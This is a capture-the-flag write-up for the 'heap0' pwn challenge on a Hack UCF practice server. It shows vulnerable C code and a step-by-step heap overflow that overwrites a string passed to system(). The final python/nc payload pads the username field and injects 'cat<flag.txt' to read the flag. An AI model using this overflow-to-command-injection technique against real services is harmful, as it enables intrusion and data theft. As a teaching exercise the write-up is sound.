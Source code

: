 # heap0
**Category:** Pwn

**Points:** 10

**Description:**

Author: kcolley
nc ctf.hackucf.org 7003

> **Files: heap0, heap0.c, libpwnableharness32.so

## Write-up
This seems to be a heap overflow problem. 

When the program is run, it asks you to enter a username, and then performs an `ls`:
```bash
> ./heap0 
username at 0x58210008
shell at 0x58210040
Enter username: chris
Hello, chris. Your shell is /bin/ls.
heap0  heap0.c	libpwnableharness32.so
```
When run on the server, we can see the flag.txt is listed:
```bash
> nc ctf.hackucf.org 7003
username at 0x581e1008
shell at 0x581e1040
Enter username: hello
Hello, hello. Your shell is /bin/ls.
flag.txt
heap0
```
We can also see from the output that the `username` comes before the `shell` in memory, and there is 56 (0x38) bytes between them. This is the 50 bytes of data plus some extra `malloc()` information.

A look at the code shows these are created on the heap and `scanf()` is used to get the user input into the `username` variable:
```c
void handle_connection(int sock) {
	char* username = malloc(50);
	char* shell = malloc(50);
	
	printf("username at %p\n", username);
	printf("shell at %p\n", shell);
	
	strcpy(shell, "/bin/ls");
	
	printf("Enter username: ");
	scanf("%s", username);
	
	printf("Hello, %s. Your shell is %s.\n", username, shell);
	system(shell);
}
```
Whatever is in the `shell` variable is executed by the `system()` function, so if we can get that `shell` to contain `/bin/cat flag.txt` we may be able to see the flag contents.

First I check that writing 56 characters as the username does impact on the `shell` variable without crashing the program:
```bash
> python -c "print('A' * 56)" | ./heap0 
username at 0x569ac008
shell at 0x569ac040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is .
```

So 56 had some effect on the `shell` (erasing its contents altogether), so I tried 57:
```bash
> python -c "print('A' * 57)" | ./heap0 
username at 0x57722008
shell at 0x57722040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is A.
sh: 1: A: not found
```
That last 'A' now appears in the `shell`. Can I put a `cat` command in there?
```bash
python -c "print('A' * 56 + 'cat heap0.c')" | ./heap0 
username at 0x56651008
shell at 0x56651040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat. Your shell is cat.
```
Only the `cat` part got through, but not the `heap0.c`. After playing around for a while, I realized it was `scanf()` interpreting a space as an end to input, so I needed to find another method to display the file contents.

After some thought I realized that another form of `cat heap0.c` would be `cat < heap0.c` which can be specified without spaces:
```bash
python -c "print('A' * 55 + '\0cat<heap0.c')" | ./heap0
username at 0x56dd9008
shell at 0x56dd9040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is cat<heap0.c.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "pwnable_harness.h"
...
```
> Note: I also added the `\0` to neaten it up, but this isn't really necessary!

This printed out the contents of the C file, so now I'd tested it locally, I could run it on the server with `flag.txt`:
```bash
python -c "print('A' * 55 + '\0cat<flag.txt')" | nc ctf.hackucf.org 7003
username at 0x5718c008
shell at 0x5718c040
Enter username: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA. Your shell is cat<flag.txt.
```
This worked, and gave me the flag.
